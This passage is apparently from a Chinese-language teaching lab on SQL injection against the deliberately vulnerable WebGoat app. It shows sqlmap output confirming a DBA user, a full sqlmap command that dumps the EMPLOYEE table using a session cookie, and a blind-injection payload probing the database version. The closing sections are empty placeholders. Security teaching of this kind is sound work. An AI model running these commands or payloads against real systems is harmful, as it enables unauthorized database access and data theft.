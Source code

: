 ```
[18:24:19] [INFO] fetching banner
[18:24:19] [INFO] resumed: 2.3.4
back-end DBMS: HSQLDB 1.7.2
banner: '2.3.4'
[18:24:19] [INFO] fetching current user
[18:24:19] [INFO] resumed: SA
current user: 'SA'
current schema (equivalent to database on HSQLDB): 'PUBLIC'
[18:24:19] [WARNING] on HSQLDB it is not possible to enumerate the hostname
hostname:	None
[18:24:19] [INFO] testing if current user is DBA
current user is DBA: True
[18:24:19] [INFO] fetching database users
[18:24:19] [INFO] fetching number of database users
[18:24:19] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[18:24:19] [INFO] retrieved: 
[18:24:19] [WARNING] time-based comparison requires larger statistical model, please wait........................... (done)
[18:24:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:24:19] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[18:24:19] [CRITICAL] unable to retrieve the number of database users

[*] ending @ 18:24:19 /2019-08-27/

```
继续尝试下列命令：
```
sqlmap -u http://10.10.10.129:8080/WebGoat/SqlInjection/challenge  --cookie "JSESSIONID=7365ACCB67FEF4451194220BC4E9340D" --data "username_reg=§newuser&email_reg=123@401.com&password_reg=123&confirm_password_reg=123" --method "PUT"  -D "PUBLIC" -T "EMPLOYEE" --dump-all

```

可以得到所有员工信息，但看不到密钥。


5.尝试获取数据库的版本。使用下列载荷：
```
newuser'  AND  substring(database_version(),1,1)=’1
```

## 实验总结
> 总结本实验涉及的关键知识、技能、应用方法，对学生的现实实践进行指引。
## 参考资料
> 列举本实验的相关参考资料。